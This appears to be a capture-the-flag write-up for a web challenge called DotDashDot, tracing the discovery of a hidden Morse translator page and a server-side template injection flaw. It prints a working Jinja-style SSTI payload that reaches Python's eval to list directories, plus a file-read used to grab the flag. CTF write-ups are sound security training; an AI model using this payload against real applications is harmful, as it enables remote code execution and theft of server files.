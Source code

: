 # DotDashDot 

- Category: Web
- Difficulty: Extreme

Challenge text:
```
An ancient relic of the past... what's it doing here?
http://dotdashdot.d.lagncra.sh 
```

## Solving the challenge
Firstly, lets navigate to the URL provided.
On visiting the page, we see this:  
![image](https://user-images.githubusercontent.com/58442255/233332323-559e150e-2441-4da9-9e47-6af19f260585.png)

Let's look for clues in the website.  
In the source, we see this comment:
```html
<!-- TODO: Repair this page <p>MORSE: <a href="/translate">UP</a></p> -->
```

This shows that there is a page `/translate` in the site. Let us visit http://dotdashdot.d.lagncra.sh/translate.

At /translate, we see this page to convert text into morse:  
![image](https://user-images.githubusercontent.com/58442255/233391274-58c1def0-ecb3-4bfd-a815-898589108c2a.png)  
After translation, we are presented with the morse code form of the text. If we decode the morse, we get back the original text.

If we try a payload like `{{7*7}}`, we notice that the morse code is still `77`(omitting characters that cannot be represented in morse).  
However, if we view the source, we can see a debug section that was supposed to be removed:
```html
 <!-- <div> TODO: Remove debug information
                    <h2>Debug Info</h2>
                    <p>Input: 49</p>
                </div> -->
```

It appears that the debug field is vulnerable to Server-Side Template Injection (SSTI).

We can use a payload to gain Python RCE into the system:
```
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").listdir()') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```
This iterates through the subclasses of the base class (`__base__`), and finds `eval` in `__globals__`, and lists the current directory.  

The output shows:
![image](https://user-images.githubusercontent.com/58442255/233395728-92c6bf27-82c8-478c-8344-ad343ddd0e3f.png)

It appears that we are in the root directory.

After searching around for quite some time, I found the flag in `/www/flag.txt`:
```python
open("/www/flag.txt").read()
```

And we got the flag!
![image](https://user-images.githubusercontent.com/58442255/233396291-97908adf-fc4e-4480-ba9a-c1cb53143fc6.png)


`LNC2023{T3mpl4t35_4r3_c00L_bUt_d4nG3r0u5_776843}`

